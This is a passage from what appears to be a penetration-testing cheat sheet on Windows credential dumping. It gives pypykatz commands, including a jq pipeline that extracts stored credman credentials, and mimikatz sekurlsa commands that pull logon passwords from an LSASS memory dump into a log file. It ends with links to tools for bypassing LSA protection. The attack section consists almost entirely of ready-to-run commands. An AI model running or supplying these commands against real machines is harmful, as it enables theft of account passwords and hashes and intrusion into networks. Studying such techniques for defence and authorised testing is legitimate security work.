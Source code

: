 ### 5.2 - Dump credentials

#### 5.2.1 - `pypykatz` (Recommended)

```
$ pypykatz lsa minidump hashmem.dmp

$ pypykatz lsa -k /path/to/file_creds minidump hashmem.dmp

$ pypykatz lsa --json minidump $i | jq 'first(.[]).logon_sessions | keys[] as $k | (.[$k] | .credman_creds)' | grep -v "\[\]" | grep -v "^\[" | grep -v "^\]"
```

#### 5.2.2 - Directly Using `mimikatz`

```
mimikatz # sekurlsa::minidump hashmem.dmp
```

Create a log file

```
mimikatz # log dumpcreds.txt

mimikatz # sekurlsa::logonpasswords
```

---
## References

### Source Repositories

- [RedCursorSecurityConsulting: PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)

- [itm4n: PPLdump](https://github.com/itm4n/PPLdump)

- [HarmJ0y: Invoke-WdigestDowngrade.ps1](https://gist.github.com/HarmJ0y/8fdd2d3acfbe79b730db)

### Microsoft

- [Microsoft: Configuring Additional LSA Protection](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)

### LOLBAS

- [LOLBAS: Comsvcs](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)

### ADSecurity
